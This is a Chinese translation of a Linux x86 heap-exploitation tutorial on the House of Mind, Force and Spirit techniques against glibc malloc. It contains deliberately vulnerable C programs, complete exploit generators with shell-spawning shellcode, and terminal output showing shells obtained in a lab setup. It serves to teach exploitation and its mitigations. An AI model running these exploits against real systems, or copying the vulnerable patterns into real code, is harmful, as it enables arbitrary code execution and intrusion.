





CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Malloc Maleficarum堆溢出)](http://www.csyssec.org/20170104/maleficarum) 》与作者信息：CSysSec出品  

[深入理解glibc malloc](../Linux%20系统底层知识/深入理解glibc%20malloc.md)  

在2004后期，’glibc malloc’ 被强化. 像unlink类似的一些技术过时后，攻击者变得无所适从。但仅在2005年后期，’Phantasmal Phatasmagoria’又开始提出下面的一系列技术来成功利用堆溢出。  

* House of Prime
* House of Mind
* House of Force
* House of Lore
* House of Spirit

## 0X01 House of Mind

通过这项技术，攻击者利用构造的假arena( Fake Arena)来欺骗’glibc malloc’。通过构造假的arena以让未排序bin的fd含有 `free的GOT表项地址 - 12`。 如此一来，漏洞程序中释放的free函数的GOT表项被shellcode地址覆盖。成功覆盖GOT之后，任何时候调用漏洞程序的free函数，shellcode就会执行。  

假设条件: 由于不是所有的堆溢出漏洞程序都能被house of mind技术成功利用，以下是成功利用的假设条件：  

1. 调用一系列malloc，直到一个chunk的地址对齐多倍的HEAP_MAX_SIZE，进而生成一块内存区域能被攻击者控制。在这块内存区域里，可以发现假的heap_info结构体，假的heap_info的arena指针ar_ptr将会指向假的arena。这样一来，假的arena和heap_info内存区域都会被攻击者控制。
2. 被攻击者控制的一个chunk的Size域(其arena指针是prereq 1)必须要释放。  
3. 紧邻上述被释放chunk的下一个chunk不能是一个top chunk。  

漏洞程序：这个漏洞程序满足上述假设条件   

``` c
/* vuln.c
 House of Mind vulnerable program
 */
#include <stdio.h>
#include <stdlib.h>
int main (void) {
 char *ptr = malloc(1024); /* First allocated chunk */
 char *ptr2; /* Second chunk/Last but one chunk */
 char *ptr3; /* Last chunk */
 int heap = (int)ptr & 0xFFF00000;
 _Bool found = 0;
 int i = 2;
 for (i = 2; i < 1024; i++) {
   /* Prereq 1: Series of malloc calls until a chunk's address - when aligned to HEAP_MAX_SIZE results in 0x08100000 */
   /* 0x08100000 is the place where fake heap_info structure is found. */
    if (!found && (((int)(ptr2 = malloc(1024)) & 0xFFF00000) == \  // [1]
      (heap + 0x100000))) {
     printf("good heap allignment found on malloc() %i (%p)\n", i, ptr2);
     found = 1;
     break;
   }
 }
 ptr3 = malloc(1024); /*[2] Last chunk. Prereq 3: (Next chunk to ptr2) != av->top */
 /* User Input. */
 fread (ptr, 1024 * 1024, 1, stdin); //  [3]
 free(ptr2); /*[4] Prereq 2: Freeing a chunk whose size and its arena pointer is controlled by the attacker. */
 free(ptr3); /*[5] Shell code execution. */
 return(0); /* Bye */
}
```
上述漏洞程序的堆内存如下所示：  
 


注：本系列所有文章中第[N]行代码指的的代码中显示`/*[N]*/`的位置。

漏洞程序中的第[3]行就是堆溢出发生的地方。用户输入存储在chunk1的内存指针处，共1MB大小。为了成功利用堆溢出，攻击者要按照以下顺序提供用户输入：  

* Fake arena
* Junk
* Fake heap_info
* Shellcode

漏洞利用程序：这个程序生成攻击者的数据文件  

``` c
/* exp.c
Program to generate attacker data.
Command:
     #./exp > file
*/
#include <stdio.h>
#define BIN1 0xb7fd8430
char scode[] =
/* Shellcode to execute linux command "id". Size - 72 bytes. */
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";
char ret_str[4] = "\x00\x00\x00\x00";
void convert_endianess(int arg)
{
        int i=0;
        ret_str[3] = (arg & 0xFF000000) >> 24;
        ret_str[2] = (arg & 0x00FF0000) >> 16;
        ret_str[1] = (arg & 0x0000FF00) >> 8;
        ret_str[0] = (arg & 0x000000FF) >> 0;
}
int main() {
        int i=0,j=0;
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd_nextsize */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk_nextsize */
        /* Fake Arena. */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* mutex */
        fwrite("\x01\x00\x00\x00", 4, 1, stdout); /* flag */
        for(i=0;i<10;i++)
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fastbinsY */
        fwrite("\xb0\x0e\x10\x08", 4, 1, stdout); /* top */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* last_remainder */
        for(i=0;i<127;i++) {
                convert_endianess(BIN1+(i*8));
                if(i == 119) {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* preserve prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* preserve size */
                } else if(i==0) {
                        fwrite("\xe8\x98\x04\x08", 4, 1, stdout); /* bins[i][0] = (GOT(free) - 12) */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
                else {
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][0] */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
        }
        for(i=0;i<4;i++) {
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* binmap[i] */
        }
        fwrite("\x00\x84\xfd\xb7", 4, 1, stdout); /* next */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* next_free */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* system_mem */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* max_system_mem */
        for(i=0;i<234;i++) {
                fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* PAD */
        }
        for(i=0;i<722;i++) {
                if(i==721) {
                        /* Chunk 724 contains the shellcode. */
                        fwrite("\xeb\x18\x00\x00", 4, 1, stdout); /* prev_size  - Jmp 24 bytes，eb is jmp opcode */
                        fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd_nextsize */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk_nextsize */
                        fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
                        "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */
                        fwrite(scode, sizeof(scode)-1, 1, stdout); /* SHELLCODE */
                        for(j=0;j<230;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        continue;
                } else {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* size */
                }
                if(i==720) {
                        for(j=0;j<90;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        fwrite("\x18\xa0\x04\x08", 4, 1, stdout); /* Arena Pointer */
                        for(j=0;j<165;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                } else {
                        for(j=0;j<256;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                }
        }
        return 0;
}
```
攻击者生成数据文件作为用户输入，漏洞程序的堆内存变为如下所示：  
   


攻击者生成数据文件作为用户输入，当漏洞程序的第[4]行执行时，’glibc malloc’会做以下事情：  

* 调用arena_for_chunk 宏获取正被释放中的chunk的arena
	- [arena_for_chunk](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L47) : 如果NON_MAIN_ARENA (N)位没有被设置，返回主arena(main arena)。如果已经设置，通过将chunk地址对齐多倍的HEAP_MAX_SIZE访问相应的heap_info结构体。然后，返回获取heap_info结构体的arena指针。在我们的例子中，NON_MAIN_ARENA (N)被攻击者设置，所以得到了正要被释放的chunk的heap_info结构体(位于地址0x0810000处)。heap_info的ar_ptr = Fake arena的基地址(0x0804a018)。
* 以arena指针和chunk地址作为参数调用_int_free。在我们的例子中，arena指针指向fake arena， 因此fake arena和chunk地址作为参数传递到_int_free。
	- Fake arena: 以下是fake arena中需要被攻击者覆盖的必要域:
		1. [Mutex](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L14)- 必须处于解锁状态(unlocked state).
		2. [Bins](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L29)- 未排序的bin fd必须含有free函数的GOT表项地址-12
		3. [Top](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L23)- 
        	+ Top地址必须不等于正被释放的chunk地址
        	+ Top地址必须大于下一个chunk地址
		4. [System Memory](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L41)- System memory必须大于下一个chunk的size。
* _int_free():
	- 如果chunk没有[被映射](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L68) (non mmap’d)，获取锁。在我们的例子中，chunk没有被映射并且fake arena的mutex lock也被成功获取。
	- [合并](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L87)：
		1. 查找前一个chunk是否空闲，如果空闲，则合并。在我们的例子中，前一个chunk被分配，因此不能向后合并。
		2. 查找下一个chunk是否空闲，如果空闲，则合并。在我们的例子中，下一个chunk被分配，因此不能向前合并。
	- 将当前释放的chunk放入未被排序的bin中。在我们的例子中，fake arena的未排序bin的fd含有`free函数的GOT表项地址 - 12`，被拷贝到‘[fwd](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L100)’中。之后，[当前被释放的chunk的地址被拷贝到’fwd->bk’中](https://github.com/sploitfun/lsploits/blob/master/hof/hom/malloc_snip.c#L109)。 bk位于malloc_chunk的12偏移处，因此12加入到’fwd’值中(ie. free- 12+12)，现在free的GOT表项被当前释放的chunk地址修改。由于攻击者已经将shellcode放入到当前被释放的chunk中，从现在开始，只要free被调用，攻击者的shellcode就会执行。  

把攻击者的数据文件当做用户输入，执行上述漏洞代码，就会执行攻击者的shellcode，如下所示  

``` bash
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ ./exp > file
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ ./vuln < file
ptr found at 0x804a008
good heap allignment found on malloc() 724 (0x81002a0)
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```
保护: 现如今，由于’glibc malloc’ 被强化(got hardened)， house of mind技术不再有效。为阻止house of mind带来的堆溢出，添加了一下检查：  
 
[损坏的chunks](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3990) : 未排序的bin的第一个chunk的bk指针必须指向未排序的bin，否则，’glibc malloc’就会抛出一个损坏的chunk错误。   
``` c
if (__glibc_unlikely (fwd->bk != bck))
        {
          errstr = "free(): corrupted unsorted chunks";
          goto errout;
        }
```

## 0X02 House of Force

通过这项技术，攻击者滥用top chunk的size，利用top chunk欺骗’glibc malloc’来服务大量的内存请求(比堆的系统内存大小要大)。如此一来，当发出一个新的malloc请求，free的GOT表项就会被shellcode地址覆盖。从现在开始，只要free被调用，shellcode就会执行。  

假设条件: 需要三个malloc调用才能成功利用house of force 技术：  

* Malloc 1: 攻击者必须能控制top chunk的大小。 这样堆溢出就可能在这个分配的chunk(物理上在top chunk前面)。
* Malloc 2: 攻击者必须能控制这个malloc请求的大小
* Malloc 3: 用户输入必须拷贝到这个已经分配的chunk中。

漏洞程序:这个漏洞程序满足上述假设条件.  

``` c
/*
House of force vulnerable program. 
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h> 
int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) {
                printf("Usage Error\n");
                return;
        }
        buf1 = malloc(256); // [1]
        strcpy(buf1, argv[1]); /*[2] Prereq 1 */
        buf2 = malloc(strtoul(argv[2], NULL, 16)); /*[3] Prereq 2 */
        buf3 = malloc(256); /*[4] Prereq 3 */
        strcpy(buf3, argv[3]); /*[5] Prereq 3 */
        free(buf3); // [6]
        free(buf2);
        free(buf1);
        return 0;
}
```
漏洞程序的堆内存如下所示：  
   


漏洞程序的第[2]行就是堆溢出发生的地方。为了能成功利用堆溢出，攻击者要提供下面的命令行参数:

* argv[1] - Shellcode + Pad + Top chunk size被拷贝到第一个malloc chunk
* argv[2]- 传递给第二个malloc chunk的size参数
* argv[3]- 用户输入被拷贝到第三个malloc chunk

漏洞利用程序：  

``` c
/* Program to exploit executable 'vuln' using hof technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#define VULNERABLE "./vuln"
#define FREE_ADDRESS 0x08049858-0x8
#define MALLOC_SIZE "0xFFFFF744"
#define BUF3_USER_INP "\x08\xa0\x04\x08"
                
/* Spawn a shell. Size - 25 bytes. */
char scode[] =
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
        
int main( void )
{       
        int i;
        char * p;
        char argv1[ 265 ];
        char * argv[] = { VULNERABLE, argv1, MALLOC_SIZE, BUF3_USER_INP, NULL };
        
        strcpy(argv1,scode);
        for(i=25;i<260;i++)
                argv1[i] = 'A';
        
        strcpy(argv1+260,"\xFF\xFF\xFF\xFF"); /* Top chunk size */
        argv[264] = ''; /* Terminating NULL character */ 
        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
一旦攻击者的命令行参数被拷贝到堆中，漏洞程序的堆内存变为下图所示：  
   


有了攻击者这些参数，就会发生下面的事情：  

第[2]行覆盖top chunk的size域：  

- 攻击者参数(argv[1] – Shellcode + Pad + 0xFFFFFFFF)拷贝到堆缓冲区'buf1'。 由于argv[1]大于256，top chunk的size域被“0xFFFFFFFF"覆盖  

第[3]行通过[top chunk](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3758)代码分配一个非常大的内存块  

* 请求一个大内存块的目的是在分配后，新的top chunk必须位于free的GOT表项的前8个字节。因此，只要再多一个内存分配请求而（第[4]行)就可以帮助我们覆盖free的GOT表项了。
* 攻击者参数(argv[2] – 0xFFFFF744)作为size参数传递给第二个malloc调用(第[3]行)。size参数可以用下面的方式来计算
	- size = ((free-8)-top)
	- 在这里
	1. free指的是可执行文件’vuln’中free的GOT表项，ie)free = 0x08049858
	2. top指的是当前top chunk（在第一次malloc之后，第[1]行) ie)top = 0x0804a108.
	3. 因此size = ((0x8049858-0x8)-0x804a108) = -8B8 = 0xFFFFF748
	4. 当size = 0xFFFFF748时，我们的目标是将新的top chunk 的8个字节放到free的GOT表项前面，可以通过这样做到
		+ (0xFFFFF748+0x804a108) = 0x08049850 = (0x08049858-0x8)
	5. 当攻击者传递size参数(0xFFFFF748)时，’glibc malloc’将size 转化为 [可用的size](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3322) (usable size)0xfffff750。因此新的top chunk size将会位于0x8049858而不是0x8049850. 攻击者将传递0xFFFFF744(而不是0xFFFFF748)作为size参数，得到转化后的参数是‘0xFFFFF748’，这正是我们需要的。

在第[4]行:  

* 由于第三行中的top chunk指向0x8049850,一个256字节的新的内存分配请求会让’glibc malloc’返回0x8049858 ，其会被拷贝到buf3中

在第[5]行:  

* 将buf1的地址拷贝到buf3中，导致GOT覆盖。因此对free的调用(第[6]行)就会导致shellcode的执行。

用攻击者的命令行参数再执行上述漏洞程序就会导致shellcode执行，如下所示:  

``` BASH
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$
```
保护: 至今为止，还没有针对这项技术的保护措施。所以就算用最新的glibc编译，这项技术也可以帮助我们成功利用堆溢出。  

## 0X03 House of Spirit

通过这项技术，攻击者欺骗’glibc malloc’返回一个在栈(不是堆)中的chunk。这就允许攻击者覆盖存储在栈中的返回地址。  

假设条件: 由于不是所有的堆溢出漏洞程序都能被house of spirit技术成功利用，以下是成功利用的假设条件  

* 缓冲区溢出覆盖一个变量，变量中含有’glibc malloc’返回的chunk地址  
* 上述的chunk必须要被释放。攻击者必须控制被释放chunk的size。将chunk的size等于下一个分配的chunk的size。  
* 分配一个chunk
* 用户输入必须拷贝到上述分配的chunk中

漏洞程序: 漏洞程序满足上述假设条件  

``` C
/* vuln.c
House of Spirit vulnerable program
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void fvuln(char *str1, int age)
{
   char *ptr1, name[44];
   int local_age;
   char *ptr2;
   [1]local_age = age; /* Prereq 2 */
   [2]ptr1 = (char *) malloc(256);
   printf("\nPTR1 = [ %p ]", ptr1);
   [3]strcpy(name, str1); /* Prereq 1 */
   printf("\nPTR1 = [ %p ]\n", ptr1);
   [4]free(ptr1); /* Prereq 2 */
   [5]ptr2 = (char *) malloc(40); /* Prereq 3 */
   [6]snprintf(ptr2, 40-1, "%s is %d years old", name, local_age); /* Prereq 4 */
   printf("\n%s\n", ptr2);
}
int main(int argc, char *argv[])
{
   int i=0;
   int stud_class[10];  /* Required since nextchunk size should lie in between 8 and arena's system_mem. */
   for(i=0;i<10;i++)
        [7]stud_class[i] = 10;
   if (argc == 3)
      fvuln(argv[1], 25);
   return 0;
}
```
漏洞程序的栈布局如下所示:  
  


程序的第[3]行是缓冲区溢出发生的地方。为了能成功利用漏洞程序，攻击者提供下面的命令行参数 :    

`argv[1] = Shell Code + Stack Address + Chunk size`

``` c
/* Program to exploit executable 'vuln' using hos technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#define VULNERABLE "./vuln"
/* Shellcode to spwan a shell. Size: 48 bytes - Includes Return Address overwrite */
char scode[] =
        "\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xb8\xfd\xff\xbf\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";
int main( void )
{
        int i;
        char * p;
        char argv1[54];
        char * argv[] = { VULNERABLE, argv1, NULL };
        strcpy(argv1,scode);
        /* Overwrite ptr1 in vuln with stack address - 0xbffffdf0. Overwrite local_age in vuln with chunk size - 0x30 */
        strcpy(argv1+48,"\xf0\xfd\xff\xbf\x30"); 
        argv[53] = '';
        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
攻击者提供参数后，漏洞程序的栈布局如下所示：    
  


攻击者提供参数后，我们来看看返回地址是如何被覆盖的    

第[3]行：缓冲区溢出

* 这里，攻击者的输入’argv[1]’拷贝到字符缓冲区’name’中。由于攻击者的输入大于44，ptr1变量和local_age分别被栈地址和chunk size覆盖。
	- 栈地址-0xbffffdf0- 当第[5]行被执行时，攻击者欺骗’glibc malloc’返回这个地址
	- Chunk size - 0x30- 当第[4]行执行时，这个chunk size被用来欺骗’glibc malloc’ ，往下看。

第[4]行：将栈区域加入到’glibc malloc’的 fast bin

free()调用[_int_free](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3803))_。 缓冲区溢出后，ptr1 = 0xbffffdf0(而不是0x804aa08)。被覆盖的ptr1作为参数传递非free()。这样一来，可以欺骗’glibc malloc’来释放位于栈中的内存区域。正要被释放的栈区域位于ptr1-8+4 处，而这已经被攻击者用0x30覆盖，因此’glibc malloc’把这个chunk当做[fast chunk](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3848)（因为48<64)，然后将被释放的chunk[插入](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3910)到位于[索引4](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3887) 处的fast binlist的前端。

第[5]行:获取栈区域(第[4]行中被添加)

对40的分配请求被[checked_request2size](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3322)  转化为对48的请求。由于可用大小(usable size) ‘48’属于fast chunk中，可以获取它对应的[fast bin](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3333)  (位于索引4处)。Fast bin的第一个chunk被[移除](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3341) 并返回为[用户](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3355) 。第一个chunk什么都不是，但在第[4]行执行期间，栈区域被添加进去了。  

第[6]行：覆盖返回地址  

* 将攻击者的’argv[1]’拷贝到栈区域(被’glibc malloc’返回)，其起始地址是是0xbffffdf0. argv[1]的前16个字节是:
	- xeb\x0e - Jmp by 14字节
	- \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41 – Pad
	- \xb8\xfd\xff\xbf - 存储在栈中的返回地址被此值覆盖。因此，在fvuln执行之后EIP变为0xbffffdb8- 这块区域俺有jmp指令，随后就是触发shell的shellcode!
	
利用攻击者的参数执行上述漏洞程序，将会执行shellcode,如下所示：  

```
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -fno-stack-protector -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ ./exp 
PTR1 = [ 0x804a008 ]
PTR1 = [ 0xbffffdf0 ]
AAAAAAAAAA����1�Ph//shh/bin��P��S�
$ ls
cmd  exp  exp.c  print	vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$
```
保护：至今为止，还没有针对这项技术的保护措施。所以就算用最新的glibc编译，这项技术也可以帮助我们成功利用堆溢出。  

注意：出于演示目的，上述漏洞程序编译时关闭以下保护机制： 

[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)  
[NX](https://en.wikipedia.org/wiki/NX_bit)  
[RELRO(ReLocation Read-Only)](https://isisblogs.poly.edu/2011/06/01/relro-relocation-read-only/) 

## 参考

[The Malloc Maleficarum](http://packetstormsecurity.com/files/view/40638/MallocMaleficarum.txt)